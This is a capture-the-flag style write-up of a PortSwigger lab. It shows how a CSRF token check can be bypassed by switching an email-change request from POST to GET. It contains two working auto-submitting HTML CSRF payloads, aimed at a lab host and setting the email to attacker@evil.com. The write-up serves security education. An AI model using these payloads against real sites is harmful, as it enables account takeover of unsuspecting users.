 # CSRF where token validation depends on request method

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method), you'll learn: CSRF where token validation depends on request method! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003103.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003134.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003143.png)

**In the previous lab, we found that the email change functionality is vulnerable to CSRF.**

**Now we can inspect the form:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type="hidden" name="csrf" value="JMWikHWXdcNk0gmDyxXOhayb1J17hGXw">
    <button class='button' type='submit'> Update email </button>
</form>
```

**This time, the form also has a hidden CSRF token!**

**Now, we can use the `exploit server` to deliver the exploit to the victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003505.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003522.png)

**Let's try to craft a form that performs CSRF attack!**
```html
<html>
	<head>
		<title>CSRF-2</title>
	</head>
	<body>
		<form action="https://0ac8002903f73b0cc0c8c73c00e50044.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003650.png)

**Now, we can click the `View exploit` to test the exploit locally:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003719.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215003739.png)

**However, we can't modify our email address, as the form is missing the CSRF token!**

**To bypass the CSRF token, we can try to change our method from POST to GET:**
```html
<html>
	<head>
		<title>CSRF-2</title>
	</head>
	<body>
		<form action="https://0ac8002903f73b0cc0c8c73c00e50044.web-security-academy.net/my-account/change-email" method="GET">
		    <input type="hidden" name="email" value="attacker@evil.com">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215004136.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215004203.png)

**We've successfully changed our email address to attacker's controlled value!**

**Next, to change other users' email, we can click the `Deliver exploit to victim` button:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215004316.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-2/images/Pasted%20image%2020221215004328.png)

We did it!

# What we've learned:

1. CSRF where token validation depends on request method